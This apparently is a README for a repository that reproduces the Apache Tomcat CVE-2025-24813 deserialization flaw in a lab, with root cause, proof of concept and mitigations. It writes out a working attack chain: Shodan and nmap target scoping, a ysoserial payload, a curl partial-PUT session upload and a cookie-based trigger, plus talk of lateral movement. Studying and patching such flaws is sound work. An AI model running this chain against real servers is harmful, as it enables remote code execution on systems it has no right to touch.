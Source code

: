 # CVE-2025-24813 Tomcat Exploit Replication

## Overview
This repository directory provides an environment to replicate a vulnerable Apache Tomcat 9.0.90 setup, as used in our experiments with CVE-2025-24813, a critical remote code execution (RCE) vulnerability disclosed on March 10, 2025. The setup mirrors a local configuration, including specific JARs, custom ports (shutdown: 8009, HTTP: 8085), and file-based session persistence, enabling exploitation via a malicious session file upload and deserialization trigger.

## Apache Tomcat Background
Apache Tomcat, developed by the Apache Software Foundation, is an open-source Java servlet container and web server, implementing Java Servlet and JSP specifications. The DefaultServlet handles static resources, and session management supports file-based persistence, a key factor in CVE-2025-24813’s exploitability.

## CVE-2025-24813 Details
- **Affected Versions**: Tomcat 9.0.0.M1 to 9.0.98, 10.1.0-M1 to 10.1.34, 11.0.0-M1 to 11.0.2
- **Severity**: Critical (CVSS ~9.8, due to RCE potential)
- **Description**: "Path Equivalence: ‘file.Name’ (Internal Dot)" allows RCE, information disclosure, or content injection via partial PUT requests when DefaultServlet writes are enabled (`readonly=false`), partial PUT is supported (default), and file-based session persistence is used with deserialization-vulnerable libraries (e.g., Commons Collections).
- **Exploitation**: Upload a crafted session file (e.g., via PUT to `/defhawk.session`) and trigger deserialization with a GET request (e.g., `Cookie: JSESSIONID=.defhawk`), executing arbitrary code if a gadget chain is present.


## Root Cause Analysis
The root cause of CVE-2025-24813 lies in Tomcat’s handling of partial PUT requests, a feature for resumable uploads. When processing these requests, Tomcat replaces path separators (e.g., `/` or `\`) with dots (`.`), creating temporary files like `sessions.exploit.session` from `/sessions/exploit.session`. This path equivalence, intended to prevent traversal, backfires when:
- **DefaultServlet Writes**: Enabled with `readonly=false` (default is `true`), allowing file uploads.
- **Partial PUT**: Supported by default, permitting attackers to upload fragments of malicious session files.
- **Session Persistence**: `PersistentManager` with `FileStore` deserializes session files from disk during session loading.

If the classpath includes deserialization-vulnerable libraries (e.g., `commons-beanutils-1.9.4.jar` with `xalan.jar`), attackers can craft payloads (e.g., via ysoserial) exploiting gadget chains like `BeanComparator` to execute code. The lack of strict path normalization and insufficient checks on partial PUTs enable this bypass.

# Red Team Overview

- **Target Scoping**: We can focus on a multi-part process where we can check the respective version & see if partial put is enabled on that given target using **Shodan** and **Nmap** respectivelty:
```bash
port:8080 tomcat "Server: Apache-Coyote/1.1" ("Tomcat-11.0" "Tomcat-10.1" "Tomcat-9.0") "HTTP/1.1 200"
```
```bash
nmap -p 8080 --script http-methods -sV target_ip
```

- **Vulnerability Check**: We confirm exploitability with a test **PUT** request. We can check session persistence by inspecting responses or configs, leveraging a `readonly=false` and `PersistentManager` setup:

```bash
curl -X PUT -d "test" http://target:8085/test.txt
```

- **Payload Delivery**: In order for a successful execution, we have to craft a payload using **ysoserial**. we can upload it via **PUT**, exploiting path equivalence:

```bash
java -jar ysoserial.jar CommonsCollections1 "touch /tmp/exploit.txt" > payload.ser
```

```bash
curl -X PUT -H "Content-Range: bytes 0-5/100" --data-binary @payload.ser http://target:8085/defhawk.session
```

- **Execution Trigger**: Send a **GET** request with the session ID to trigger deserialization. We expect a **500 error**, indicating successful RCE:
```bash
curl "http://target:8085/" -H "Cookie: JSESSIONID=.defhawk"
```

- **Exploitation Scaling**: We can automate the process with **Python** (e.g., `exploit.py`) or **Burp Suite** for future testing, taking advantage of the misonfigured targets, ideal for **lateral movement** in networks with Tomcat deployments.
  


## Proof of Concept(PoC)
Here’s how we can set up and execute the exploit locally to demonstrate CVE-2025-24813:

- **Configure `web.xml`**:
    - Edited `/opt/tomcat/conf/web.xml` to enable writes in the DefaultServlet:
    ```xml
        <servlet>
            <servlet-name>default</servlet-name>
            <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
            <init-param>
                <param-name>debug</param-name>
                <param-value>0</param-value>
            </init-param>
            <init-param>
                <param-name>listings</param-name>
                <param-value>false</param-value>
            </init-param>
            <init-param>
              <param-name>readonly</param-name>
              <param-value>false</param-value>
            </init-param>
            <load-on-startup>1</load-on-startup>
        </servlet>
    ```
- **Configure `context.xml`**:
    - Modified `/opt/tomcat/conf/context.xml` to enable file-based session persistence.       Here we used `PersistentManager` with `FileStore` to store sessions on disk,            enabling deserialization of uploaded files:
    ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <Context>
            <WatchedResource>WEB-INF/web.xml</WatchedResource>
            <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
            <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>
            <Manager className="org.apache.catalina.session.PersistentManager">
                <Store className="org.apache.catalina.session.FileStore" />
            </Manager>
        </Context>
    ```

- **Generate the Payload**: 
    - This generates a serialized payload that executes `touch /tmp/exploit.txt` when deserialized. It creates a malicious session file using `ysoserial` with the `CommonsCollections1` gadget chain:
    ```bash
    java -jar ysoserial.jar CommonsCollections1 "touch /tmp/exploit.txt" > payload.ser
    ```

- **Encode to Base64**: 
    - Converted the binary payload to Base64 for use in the exploit script:
    ```bash
    base64 payload.ser > payload.txt
    ```
- **Execute the Exploit**: 
    - The script uploads `defhawk.session` via `PUT` and triggers deserialization with a `GET` request. We can execute the python script with:
    ```bash
    python3 exploit.py
    ```
    <br>

    ![Payload_Executed](media/images/python.png)
- **Verify Execution**: 
    - We can check for the exploit’s success by seeing if our file got created, as we see by running the following that `/tmp/exploit.txt` was created, indicating successful RCE:
    ```bash
    ls /tmp
    ```
    <br>

    ![Payload_Executed](media/images/tmp.png)

    ![Demonstration Video](media/video/Tomcat_Demonstration.mp4 "Demonstration Video")

## Mitigation Strategies
To mitigate CVE-2025-24813, organizations should adopt the following strategies, as recommended by the NVD and additional context: 

- **Upgrade**: Update to **Tomcat 9.0.99, 10.1.35, or 11.0.3** for patches (see [Apache release notes](https://tomcat.apache.org/)).

- **Disable Writes**: Set `readonly=true` in `conf/web.xml` under `DefaultServlet`:
```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>true</param-value>
</init-param>
```
- **Block Partial PUT**: Disable via Tomcat configuration (if supported) or use a **WAF** (e.g., ModSecurity) to filter `Content-Range` headers.

- **Change Persistence**: Switch to `JDBCStore` in `context.xml`:

```xml
<Manager className="org.apache.catalina.session.JDBCStore" />
```

- **Remove Libraries**: Audit and remove unused JARs (e.g., `commons-collections-3.2.1.jar`) from `/opt/tomcat/lib/`.

- **Monitor**: Enable detailed logging (`FINEST` in `logging.properties`) and watch for `PUT` attempts or `500` errors.

These steps help mitigate errors in a general Tomcat sertup and align with best practices from web sources like **Apache’s security advisories**.

  